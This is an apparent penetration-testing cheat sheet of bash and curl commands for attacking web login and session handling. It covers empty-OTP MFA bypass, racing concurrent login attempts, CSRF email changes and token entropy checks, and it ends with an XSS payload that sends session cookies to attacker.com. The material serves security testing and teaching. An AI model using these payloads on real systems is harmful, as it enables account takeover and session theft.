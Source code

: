 ```bash
# Looks for predictable patterns

# Password reset token analysis
curl -X POST -d "email=admin@target.com" http://target.com/reset_password.php
# Requests password reset
# Analyze reset tokens for predictability

# Multi-factor authentication bypass
curl -X POST -d "username=admin&password=correct&otp=" http://target.com/login.php
# Empty OTP field testing
# May bypass MFA validation

# Race condition in authentication
for i in {1..50}; do
    curl -X POST -d "username=admin&password=wrong" http://target.com/login.php &
done
wait
# Concurrent login attempts
# May bypass rate limiting
```

### **Session Management Testing**

```bash
# Session timeout testing
curl -b "session=valid_session_id" http://target.com/profile.php
sleep 3600  # Wait 1 hour
curl -b "session=valid_session_id" http://target.com/profile.php
# Tests session timeout implementation
# Long-lived sessions are security risks

# Session token entropy analysis
python3 -c "
import requests
import re
tokens = []
for i in range(100):
    r = requests.get('http://target.com/login.php')
    token = re.search(r'PHPSESSID=([^;]+)', r.headers.get('Set-Cookie', ''))
    if token:
        tokens.append(token.group(1))
print(f'Unique tokens: {len(set(tokens))}/{len(tokens)}')
"
# Analyzes session token uniqueness
# Predictable tokens allow session hijacking

# Cross-site request forgery (CSRF) testing
curl -X POST -d "email=attacker@evil.com" -H "Referer: http://evil.com" http://target.com/change_email.php
# Tests CSRF protection
# Missing CSRF tokens allow cross-site attacks

# Session hijacking via XSS
curl "http://target.com/search.php?q=<script>new Image().src='http://attacker.com/cookie.php?c='+document.cookie</script>"
# Combines XSS with session hijacking
# Steals session cookies via JavaScript
```
